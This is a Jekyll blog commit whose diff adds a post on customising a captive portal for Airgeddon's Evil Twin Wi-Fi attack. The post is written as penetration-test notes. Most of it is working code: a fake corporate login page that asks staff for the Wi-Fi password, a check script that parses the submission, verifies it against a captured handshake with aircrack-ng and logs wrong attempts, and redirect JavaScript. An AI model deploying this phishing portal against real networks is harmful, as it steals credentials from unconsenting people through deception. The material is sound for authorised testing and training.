

Before and after one commit to patrickt2017/patrickt2017.github.io, a Jekyll site: the page built from _pages/category-archive.md, in a window 1280 px wide and 1400 px high, scrolled down 323 px. Shown: the top 1393 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
2025-09-06 Blog Post

````diff
--- a/_data/navigation.yml
+++ b/_data/navigation.yml
@@ -12,6 +12,8 @@ main:
   #   url: /sitemap/
   - title: "EDR Evasion"
     url: /categories/edr-evasion/
+  - title: "Penetration Test"
+    url: /categories/pentest/
   - title: "Categories"
     url: /categories/
 #  - title: "Tags"
--- /dev/null
+++ b/_pages/pentest.md
@@ -0,0 +1,7 @@
+---
+title: Penetration Test
+layout: category
+permalink: /categories/pentest/
+taxonomy: "Penetration Test"
+author_profile: true
+---
--- /dev/null
+++ b/_posts/2025-09-06-Custom-Captive-Portal.md
@@ -0,0 +1,186 @@
+---
+title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
+categories:
+    - Penetration Test
+    - Wi-Fi
+toc: true
+toc_label: "Table of Contents"
+toc_sticky: true
+show_date: true
+---
+
+# Introduction
+During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue acccess point and to trick users to connect the fake one.
+
+
+# Airgeddon
+
+![](/assets/images/2025-09-06-01.png)
+
+# Custom Portal Plugin
+
+## Installation
+
+https://github.com/KeyofBlueS/airgeddon-plugins
+
+
+```sh
+┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
+└─# ls -al
+total 96
+drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
+drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
+drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
+-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
+-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
+-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
+```
+
+# Working on the Template
+## index.htm
+`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.
+
+```sh
+#!/usr/bin/env bash
+echo '<!DOCTYPE html>'
+echo '<html>'
+echo -e '	<head>'
+echo -e '		<meta name="viewport" content="width=device-width"/>'
+echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
+echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
+echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
+echo -e '		<script type="text/javascript" src="portal.js"></script>'
+echo -e '	</head>'
+echo -e '	<div class="content">'
+echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
+echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
+echo -e '			<h1>Wi-Fi Access</h1>'
+echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
+echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
+echo -e '			<input type="submit" value="Connect" class="button"/>'
+echo -e '		</form>'
+echo -e '		<p class="warning">Only authorized persons are allowed to access the coporate network of ABC Company.</p>'
+echo -e '	</div>'
+exit 0
+```
+
+You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.
+
+## check.htm
+
+`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.
+
+```sh
+POST_DATA=$(cat /dev/stdin)
+if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
+	POST_DATA=${POST_DATA#*=}
+	password=${POST_DATA/+/ }
+	password=$(printf '%b' "${password//%/\\x}")
+fi
+```
+
+Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.
+
+```sh
+if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
+	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
+	echo "${password}" >\
+	"${tmpdir}${webdir}${currentpassfile}"
+	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
+```
+
+Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.
+
+```sh
+if [ "$?" = "0" ]; then
+	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
+	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be restablished in a few moments'
+	et_successful=1
+else
+	echo "${password}" >>\
+	"${tmpdir}${webdir}${attemptsfile}"
+	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
+	et_successful=0
+fi
+```
+
+## portal.css
+
+You could customize the CSS content here.
+
+## portal.js
+
+In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.
+
+```sh
+if [ ${et_successful} -eq 1 ]; then
+    exit 0
+else
+    echo '<script type="text/javascript">'
+    echo -e '\tsetTimeout("redirect()", 3500);'
+    echo '</script>'
+    exit 1
+fi
+```
+
+The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.
+
+```javascript
+function redirect() {
+    document.location = "index.htm";
+}
+```
+
+Meanwhile, some response corresponding to the form could be included here, such as password length validation.
+
+```javascript
+(function() {
+    var onLoad = function() {
+        var formElement = document.getElementById("loginform");
+        if (formElement != null) {
+            var validateForm = function(event) {
+                event.preventDefault();
+                var password = document.getElementById("password").value;
+                if (password === "") {
+                    alert("Please enter the Wi-Fi password.");
+                } else if (password.length < 8) {
+                    alert("The password must be at least 8 characters.");
+                } else {
+                    formElement.submit();
+                }
+            };
+            formElement.addEventListener("submit", validateForm);
+        }
+    };
+
+    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
+})();
+```
+
+# The Demo Captive Portal
+
+Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.
+
+```sh
+┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
+└─# ls -al
+total 48
+drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
+drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
+-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
+-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
+-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
+-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
+-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
+```
+
+After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.
+
+![](/assets/images/2025-09-06-02.png)
+
+
+![](/assets/images/2025-09-06-03.png)
+
+# Resources
+
+https://zimperium.com/glossary/evil-twin-attacks
````
Also changed, not shown: assets/images/2025-09-06-01.png (added), assets/images/2025-09-06-02.png (added), assets/images/2025-09-06-03.png (added).
